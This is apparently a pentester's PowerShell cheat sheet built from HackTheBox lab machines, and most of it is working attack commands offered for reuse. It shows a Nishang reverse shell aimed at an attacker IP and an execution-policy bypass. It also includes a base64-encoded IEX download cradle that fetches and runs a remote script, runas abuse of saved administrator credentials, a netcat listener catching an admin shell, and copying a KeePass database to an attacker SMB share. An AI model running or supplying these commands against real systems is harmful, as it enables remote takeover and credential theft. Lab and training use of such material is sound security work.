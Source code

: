 
# Powershell Cheat Sheet for Pentesters

Useful Powershell commands for Pentesting purposes. 
 

## Load Powershell

### Method 1 (CMD):

```txt
C:\> powershell 
C:\> powershell -ep bypass #Bypass Execution Policy
C:\> %SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
C:\> %SystemRoot%\SysNative\WindowsPowershell\v1.0\powershell.exe
```
- **System3** : On a 32-bit computer, all 32-bit programs store their files in C:\Program Files, and the system-wide library location is C:\System32.

- **SysWOW64** :  On a 64-bit computer, 64-bit programs store their files in C:\Program Files, and the system-wide C:\Windows\System32 folder contains 64-bit libraries. 32-bit programs store their files in C:\Program Files (x86), and the system-wide folder is C:\Windows\SysWOW64.

- **Sysnative** : is a virtual folder, a special alias, that can be used to access the 64-bit System32 folder from a 32-bit application or script. If you for example specify this folder path in your application's source code:
    
	Example :
	```txt
	C: >  %SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
	```
	![c9f125dd97ae62013f99a49aad664a8d.png](./_resources/a4b3360e65b04d788a9b4060a7a4cf71.png)

### Method 2 (Meterpreter) :

```shell
	meterpreter > load powershell
	meterpreter > powershell_shell
```

### Method 3 (Nishang):
```txt
root > emacs -nw /opt/nishang/Shells/Invoke-PowerShellTcp.ps1
	    # Copy this command at the end of script and change [IP] and [PORT] :
		Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PORT]

root > python -m SimpleHTTPServer 80
C:\> powershell -ep bypass . .\Invoke-PowerShellTcp.ps1
```
------------------------------------
## Working with Files

### Search file:

```txt
C:\users\alfred>  Get-ChildItem -Recurse C:\ user.txt -ErrorAction  SilentlyContinueSilentlyContinue
```

### Cat substring:

```txt
PS C:\users\alfred> Get-Content user.txt
PS C:\users\alfred> (Get-Content user.txt).substring(0,16)  
```

------------------------------------
## Encoding


### Encode file with base64

```txt
PS C:\Users\Phineas\Desktop> $fc = Get-Content "Oracle issue.txt"
PS C:\Users\Phineas\Desktop> $fe = [System.Text.Encoding]::UTF8.GetBytes($fc)
PS C:\Users\Phineas\Desktop> [System.Convert]::ToBase64String($fe)
```
![70985ab41d48deb4c24200c50ef65607.png](./_resources/013fbe31e2124f44bcb38f6485168d77.png)

### Encode Powershell command with base64 for windows (Little Endian)

```
root:~/InfoSec/CTF/Plateforms/HTB/VIP/Access > echo -n "IEX(New-Object Net.webClient).downloadString('http://10.10.14.35/xang.ps1')" | iconv --to-code UTF-16LE | base64 -w 0
```

```txt
PS > runas /user:ACCESS\Administrator /savecred "powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgB3AGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADMANQAvAHgAYQBuAGcALgBwAHMAMQAnACkA"
```

```txt
root:~/InfoSec/CTF/Plateforms/HTB/VIP/Access >  nc -lvp 9002
        PS C:\Users\Administrator\Desktop> whoami
        access\administrator
```
------------------------------------
## Symbolic Links

### Examining Symbolic Link

```txt
PS C:\Users\Public\Desktop> type "ZKAccess3.5 Security System.lnk"
PS C:\Users\Public\Desktop> $WScript = New-Object -ComObject Wscript.Shell     
PS C:\Users\Public\Desktop> $shortcut = Get-ChildItem *.lnk
PS C:\Users\Public\Desktop> $shortcut


        Directory: C:\Users\Public\Desktop


        Mode                LastWriteTime     Length Name                                                                  
        ----                -------------     ------ ----                                                                  
        -a---         8/22/2018  10:18 PM       1870 ZKAccess3.5 Security System.lnk                                       


PS C:\Users\Public\Desktop> $WScript.CreateShortcut($shortcut)


        FullName         : C:\Users\Public\Desktop\ZKAccess3.5 Security System.lnk
        Arguments        : /user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"
        Description      : 
        Hotkey           : 
        IconLocation     : C:\ZKTeco\ZKAccess3.5\img\AccessNET.ico,0
        RelativePath     : 
        TargetPath       : C:\Windows\System32\runas.exe
        WindowStyle      : 1
        WorkingDirectory : C:\ZKTeco\ZKAccess3.5
```

## Processes

 ### Check Process Architecture
------------------------------------
 Always check if your current process match the architecture of the target machine, otherwise you could face some issues
 
 ```txt

	PS > [environment]::Is64BitOperatingSystem
		True
	PS > [environment]::Is64BitProcess
		False
 ```
![90d6a9dd8732f4bd33437b6a4493fa5f.png](./_resources/1cd7c269cdda4ecd93a59c5843d0b584.png)

## Servers 

### Start SMB Server without authentication
------------------------------------
- On the attacker's machine run:

	 ```txt
	 root > smbserver.py [NAME_SMB_SERVER]  `[SHARED_FOLDER]` 
	 ```
	 ![17338a4894e3a99b015cf4f1a54358ba.png](./_resources/8df48b71a2ff4926b18977e0107f679a.png)
 
- On the windows machine, connect to the smb server :
	 ```txt
		PS > New-PSDrive -Name "SadiDrive" -PSProvider "FileSystem" -Root "\\10.10.14.35\lordofsadi-smb-server"

		PS > New-PSDrive -Name "SadiDrive" -PSProvider "FileSystem" -Root "\\10.10.14.35\lordofsadi-smb-server"

		Name           Used (GB)     Free (GB) Provider      Root                                               CurrentLocation
		----           ---------     --------- --------      ----                                               ---------------
		SadiDrive                              FileSystem    \\10.10.14.35\lordofsadi-smb-server


		PS > cd SadiDrive:
		PS > cp C:\Users\kohsuke\Documents\CEH.kdbx .  # copy from victim machine to our local machine

- On the attacker's machine, verify the connection:

![1322dda2e4703764af0745f8721a5dcf.png](./_resources/0aa259ed8e654d5d9dbeb6de5852ebd8.png)

------------------------------------
 ### Start SMB Server with authentication
------------------------------------
 ![28bae988f6e38b92b648286de050857d.png](./_resources/8667c7e8d3e143c0acca657c37f9fc47.png)
                
 
## ACL Control

```txt
PS C:\users\administrateur> Get-ACL [File or directory] |  Fl* # check the ACL of the current directory of file (the interesting parts are in AccessToString and Owner Section)  (Fl * : Format List)
PS C:\users\administrateur> icacls root.txt /grant Alfred:(F) # Modify ACL of file root.txt , give full control to alfred (method 1)
PS C:\users\administrateur> cacls  root.txt /t /e /p Alfred:F  # Modify ACL of file root.txt , give full control to alfred (method 2)
```      

------------------------------------
## Issues
 ------------------------------------
### Function Call

Sometimes when we get a cmd reverse shell and we want to run "*powershell -ep bypass*", we get stuck, to fix the issue : try to call the function directly, instead of running the whole script.

- **Example** *(Powerup)*: 

	```
	root > emacs -nw powerup.ps1 
		   # add Invoke-AllChecks at the end of file

	C: > powershell -ep bypass . .\PowerUp.ps1
	```         

## Acknowledgments

*  [IppSec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) 
